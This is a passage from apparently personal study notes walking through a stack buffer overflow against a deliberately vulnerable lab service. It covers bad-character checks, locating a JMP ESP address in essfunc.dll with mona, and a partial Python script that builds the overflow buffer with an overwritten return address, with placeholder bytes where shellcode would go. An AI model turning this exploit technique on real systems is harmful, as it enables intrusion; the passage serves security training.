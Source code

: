 Now right click on the ESP and show hexdump

![show_hexdump](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_show_hexdump.png)

Here we see all the chars. Now we simply count up from 01 to FF. If any are missing this is a 'bad character' and we should exclude it when generating shellcode.

![memdump](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_memdump.png)

## Find JMP ESP

Now that we know the offset of the EIP, know what characters we can use for our shellcode and saw we have plenty of space on the stack we can start locking for a JMP ESP.

We do that since if we find a adresspace in memory where a JMP ESP currently lives and point the EIP at that adresspace we are telling the program to execute what we currently have stored on the stack (i.e. our shellcode).

To find a JMP ESP we can start looking for a DLL that has no protection mechanisms. We can do this with a plugin called mona.

`!mona modules`

Here we found a DLL that has no protections enabled.

![mona_modules](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_mona_modules.png)

Now we can look if this DLL has a JMP ESP. To search for this we need to know the OPCODE equivalent of a JMP ESP. 

If we don't know this we can use a tool called nasm_shell

```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm >
```

`!mona find -s "\xFF\xE4" -m essfunc.dll`

![find_jmp_esp](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_find_jmp_esp.png)

`625011af` is the address of a jump point. We want to add this value to our python script in place of the B's. 

But since where on a x86 system it uses Little Endian Format. This means that the lowest byte is stored at the lowest addres and the highest order byte at the highest.

So it will look something like this.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"C"*256

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b'C'*256            # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256            # this also gives us an idea of how much space we have on the stack.
```